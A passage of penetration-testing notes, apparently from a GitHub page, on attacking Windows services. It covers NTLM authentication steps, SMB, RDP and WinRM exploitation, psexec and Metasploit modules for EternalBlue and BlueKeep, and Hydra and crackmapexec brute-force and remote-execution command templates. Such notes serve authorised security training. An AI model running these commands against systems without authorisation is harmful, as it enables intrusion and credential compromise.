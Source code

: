 1. The client request access to a share
2. The server generates a string and sends it to the client
3. The client generates a hash of the received string by using the user password as the key
4. The server does the same thing as the client with the stored password of the user 
5. The client sends the encrypted string to the server which will compare it against the one that it generated by using the stored password of the user
6. If both strings match then the authentication will be succesful.

#### Using PsExec

A valid user account is needed in order to perform the attack.

`psexec.py <user>@<ip> <command_to_execute>`

#### Using Metasploit

`windows/smb/psexec` module to exploit PsExec

#### SMB EternalBlue

- `nmap -Pn -sV -O <ip>`
- `nmap -Pn -p 445 --script smb-vuln-ms17-010 <ip>`
- `windows/smb/ms17_010_eternalblue` or using eternal blue AutoBlue [exploit from GitHub](https://github.com/3ndG4me/AutoBlue-MS17-010)

### Exploiting RDP 3389/other

It's necesary to get valid user credentials.

#### RDP scanner

`auxiliary/scanner/rdp/rdp_scanner` metasploit module which is usefull when RDP is configured in other port

#### Using hydra to bruteforce

`hydra -L <path_to_user_dict> -P <path_to_passw_dict> rdp://<ip> -s <port>` 

#### RDP BlueKeep

`windows/rdp/cve_2019_0708_bluekeep_rce` this module is used to exploit bluekeep vulnerabilty

### Exploiting WinRM 5985/5986

The tools used for exploiting WinRM service are `crackmapexec` to bruteforce on Win-RM and `evil-winrm` to get a command session by providing a hash to authenticate.

#### Bruteforcing with crackmapexec

- `crackmapexec <protocol> <ip> -u <user_dict> -p <pass_dict>` will perform a bruteforce attack
- `crackmapexec <protocol> <ip> -u <user> -p <pass> -x "<command>"` will execute a command

#### Getting cmd session with evil-winrm

`evil-winrm.rb -u <user> -p <password> -i <ip>`
